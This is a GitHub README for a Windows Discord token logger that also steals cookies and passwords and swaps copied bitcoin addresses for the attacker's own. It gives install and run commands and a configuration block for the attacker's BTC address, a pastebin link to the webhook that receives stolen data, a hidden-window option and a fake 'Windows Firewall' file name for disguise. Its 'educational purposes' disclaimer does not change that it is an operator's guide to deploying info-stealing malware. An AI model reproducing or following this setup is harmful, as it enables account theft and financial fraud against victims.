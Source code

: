 # Discord-Info-Logger
A free, efficient, and open-source discord token logger, that also grabs cookies, passwords, and intercepts bitcoin addresses. This is purely for demonstration/educational purposes.

## Setup

Depending on your python installation your commands may vary. 
Below are the commands needed to set up.
The script was tested in python 3.8.6, on windows 10. This script only works on windows.

Windows:
```
git clone https://github.com/LocalsGitHub/Discord-Info-Logger.git
cd Discord-Info-Logger
pip install -r requirements.txt
py TokenLogger.py
```
## Config

Once you have opened the script in your desired text editor, there are 3 lines that you can change.
```
# Configuration
BTC_ADDRESS = '3LsZH7LqxJMZBaVU9YoTLk8HNnUcmzE88v' <--- Change this to your own bitcoin address
pastebin = "https://pastebin.com/raw/id" <--- Change this to your own pastebin link that contains your webhook
hiddenWindow = False <--- Set this to True or False. If you want the window to be hidden on execution then set this to True
FakeFileName = "Windows Firewall" <--- Change this to the fake desired name.
```

# Support
Create an issue, or message me on discord.

# Credit

Credit to me for maintaining this project, adding the data logger, gofile upload, and fixing any bugs that arise, and small changes.<br>
Credit to checksum ([checksum]: github.com/ecriminal) for the token logger<br>
Credit to NightFallGT ([NightFallGT]: github.com/nightfallgt) for the BTC Clipper<br>
Credit to anyone else who contributed :)<br>
